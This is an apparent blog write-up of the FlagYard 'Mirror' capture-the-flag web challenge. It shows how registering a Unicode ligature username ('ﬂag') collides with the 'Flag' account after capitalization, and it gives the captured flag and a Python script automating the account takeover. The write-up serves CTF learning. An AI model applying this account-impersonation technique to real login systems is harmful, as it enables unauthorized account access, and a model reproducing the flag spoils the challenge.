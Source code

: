 ```yaml
---
layout: post
title: "FlagYard Mirror Web Challenge"
categories: [CTF Writeup, Web Exploitation]
tags: [FlagYard Writeup, Mirror Challenge, Web Exploitation]
author: "Bilal Safdar"
description: "Step-by-Step Writeup for FlagYard's Mirror Web Challenge"
---
```


# Challenge Overview
This writeup provides an automated & manual solution to the "**Mirror**" challenge, which is worth 200 points in the web category on the FlagYard platform. The challenge involves exploiting the login system of the website to extract the flag from `flag.txt`.

![Mirror Challenge](https://i.ibb.co/QfyDVf5/mirror-1.png)

# Application Functionality
The application provides `sign_up`, `account`, and `login` endpoints for account management. Here's how it works:

## Sign-Up:
Users can create an account by submitting a username and password. The password is hashed using MD5, and the username is converted to lowercase before being stored in the database. If the username is taken, an error is shown; otherwise, the user is redirected to the login page.

![Sign-Up page](https://i.ibb.co/QpT3Bcj/mirror-2-signup.png)

## Log-In:
Users log in with their credentials, and if valid, the username is stored in the session with the first letter capitalized and the rest is converted to lower case (e.g., fLag becomes Flag).

![Log-In page](https://i.ibb.co/n001xK3/mirror-1-login.png)

```
if logged_in:
    session['user'] = logged_in['username'].capitalize()
    return redirect(url_for('account'))
```

## Account:
The account dashboard displays the flag.

![Account](https://i.ibb.co/82HzhRH/mirror-3-account.png)

# Exploitation Plan
Now if you take a look closely in the `app.py`:

```
        if user == 'Flag':
            return render_template('account.html', user=user, secret=open('flag.txt').read())
        return render_template('account.html', user=user)
    return redirect('/login')
```

This code means that the application prints the flag in `account.html`, but in order to get the flag we should have the user as `Flag`. But, we cannot enter the user `Flag` or `flag` as it is already registered, and we don't know it's password.

To get the username as `Flag`, we will be using **Homologyphs** in the username.

> **Homologyph:** A homoglyph is a character or letter that looks similar to another character or letter, but has a different meaning. For example, the letter "O" looks similar to the number "0", and the uppercase "I" looks similar to the lowercase "l" in a sans serif font.

So that means we have to use the homologyph of `f` or more letters? Yes! That's right.

In this case we will be using the homologyph of `fl` which I found from this [Website](https://www.compart.com/en/unicode/U+FB02). You can also find variety of homologyphs from this [GitHub Repo](https://github.com/codebox/homoglyph/blob/master/raw_data/chars.txt).

![Homologyph of fl](https://i.ibb.co/gjxNSx1/mirror-5-homologyph.png)

## Exploitation:

1. Firstly, go the the `sign_up` endpoint and register a new user with the `ﬂag` username.
The `ﬂ` used is a homologyph of `fl`.
2. Enter any password, it does not matters.
3. Now go to the `login` page and log-in with the same user and password entered before.
4. You will be prompted to the `account` page where the flag will be displayed :D

![Flag Found](https://i.ibb.co/GvzqKnv/mirror-4-flag.png)

**Flag:** `FlagY{a465936087fffb0eac1029fc61064d48}`

## Exploit Automation:
Here's the python script to automate the process!
```
import requests


BASE_URL = "http://url.playat.flagyard.com"  # Replace with the actual URL
# Do not add a slash (/) after the URL!

USERNAME = "ﬂag"  # Homoglyph for 'flag'
PASSWORD = "password123"  # Dummy password

def register():
    """Registers a new user with the homoglyph username."""
    url = f"{BASE_URL}/sign_up"
    data = {"username": USERNAME, "password": PASSWORD}
    response = requests.post(url, data=data)
    if response.status_code == 200:
        print("[+] Registration successful.")
    else:
        print("[-] Registration failed.")
        print(response.text)

def login():
    """Logs in with the homoglyph username and retrieves the flag."""
    url = f"{BASE_URL}/login"
    data = {"username": USERNAME, "password": PASSWORD}
    response = requests.post(url, data=data)
    
    if response.status_code == 200 and "Set-Cookie" in response.headers:
        print("[+] Login successful.")
        cookies = response.cookies
        return cookies
    else:
        print("[-] Login failed.")
        print(response.text)
        return None

def get_flag(cookies):
    """Accesses the account page to retrieve the flag."""
    url = f"{BASE_URL}/account"
    response = requests.get(url, cookies=cookies)
    
    if response.status_code == 200 and "Flag" in response.text:
        print("[+] Flag found!")
        flag_start = response.text.find("Flag")
        flag_end = response.text.find("</", flag_start)
        print("Flag:", response.text[flag_start:flag_end])
    else:
        print("[-] Failed to retrieve flag.")
        print(response.text)

if __name__ == "__main__":
    print("[*] Starting exploitation...")
    register()
    cookies = login()
    if cookies:
        get_flag(cookies)
```

---

Happy Hunting! Follow me on [Twitter/X](https://twitter.com/an0nbil) or connect to me on [LinkedIn](https://www.linkedin.com/in/bilal-sec/)!
